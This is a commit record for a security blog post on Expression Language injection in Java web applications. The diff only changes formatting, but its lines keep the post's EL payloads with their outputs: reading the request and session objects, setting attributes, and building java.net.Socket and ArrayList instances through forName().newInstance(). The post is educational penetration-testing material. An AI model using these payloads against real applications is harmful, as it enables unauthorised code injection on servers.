

Before and after one commit to zerosecuritylab/blog, a Jekyll site: the page built from _posts/2019-02-01-Elinjection.md, in a window 1280 px wide and 1400 px high, scrolled down 3438 px. Shown: the whole window at 92% size, without its empty margins (264-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2019-02-01-Elinjection.md

````diff
--- a/_posts/2019-02-01-Elinjection.md
+++ b/_posts/2019-02-01-Elinjection.md
@@ -66,19 +66,19 @@ In above example, anything between expression delimiters {{ }} will be evaluated
 
 Once it is confirmed that anything between expression delimiters is evaluated from this point we can send payloads to start gathering more information.
 
-## Convert string to Uppercase:
-```
+**Convert string to Uppercase:**
+```EL
 Payload: ${{'abc'.toUpperCase()}}
 Output: ABC
 ```
 
-## Concatenate two strings.
+**Concatenate two strings:**
 ```
 Payload: ${{'abc'.concat('def')}}
 Output: abcdef
 ```
 
-## Get the class name of string.
+**Get the class name of string:**
 ```
 Payload: ${{'a'.getClass()}}
 
@@ -88,7 +88,7 @@ Output: java.lang.String
 
 There are some built in variables such as **{{ request }}**, **{{ session }}**,**{{ faceContex }}**
 
-## Get the class of request object
+**Get the class of request object:**
 ```
 Payload: ${{ request }}
 
@@ -96,7 +96,7 @@ Output: [org.apache.catalina.connector.RequestFacade@316732da]
 ```
 
 
-## Get the class of session object
+**Get the class of session object:**
 ```
 Payload: ${{ session }}
 
@@ -104,7 +104,9 @@ Payload: ${{ session }}
 ```
 From this point we have some information regarding application we can start testing some functionality.
 
-Can we modify an object?
+
+
+**Can we modify an object?**
 ```
 Payload: ${{request.setAttribute(&quot;r&quot;,&quot;abc&quot;)}}  ${{request.getAttribute(&quot;r&quot;)}}
 
@@ -119,6 +121,8 @@ Using string &#39;a&#39; to get an instance of class Java.net.Socket -
 Payload: ${{&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.net.Socket&quot;).newInstance()}}
 Output: [a, Socket[unconnected]]
 ```
+
+
 An example payload to create array object using  forName() newInstance() Methods.
 ```
 ${request.setAttribute(&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.util.ArrayList&quot;).newInstance())}
````
